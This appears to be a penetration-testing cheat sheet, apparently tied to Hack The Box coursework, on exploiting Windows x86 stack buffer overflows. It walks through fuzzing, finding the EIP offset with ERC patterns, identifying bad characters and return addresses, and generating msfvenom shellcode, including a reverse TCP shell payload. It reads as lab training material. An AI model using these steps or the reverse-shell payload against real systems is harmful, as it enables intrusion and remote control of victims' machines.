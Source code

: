# buffer overflow x86 windows

## Take control EIP

- Get rough estimate offset
```shell
python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"
```

- Create pattern
```shell
ERC --pattern c 5000
```

- Calculate exact offset
```shell
ERC --pattern o 1hF0
```

- Verify offset by overwriting EIP
```shell
$(python2 -c "print('A' * 1000 + 'B' * 4)")
```

## Identify bad chars

- Generate chars string

```shell
ERC --bytearray -bytes 0x00
```

- Compare characters from array to character in memory region, using the value of the ESP

```shell
ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin
```

## Identify return address

To find a list of all loaded files by the program, we can use 

```shell
ERC --ModuleInfo
```

## Generate shellcode

- Generate shellcode using `msfvenom`.
```shell
msfvenom -p "windows/exec" CMD="cmd.exe" --format "python" --bad-chars "\x00"
```

```shell
msfvenom -p "windows/shell_reverse_tcp" LHOST=$me LPORT=4444 -f "python" --bad-chars "\x00"
```

## Python

- A Python script for local buffer overflow can be at [GitHub](https://github.com/a3cipher/runbook/blob/main/ptes3-exploitation/binary-exploitation/bo-windows-x86-local.py).
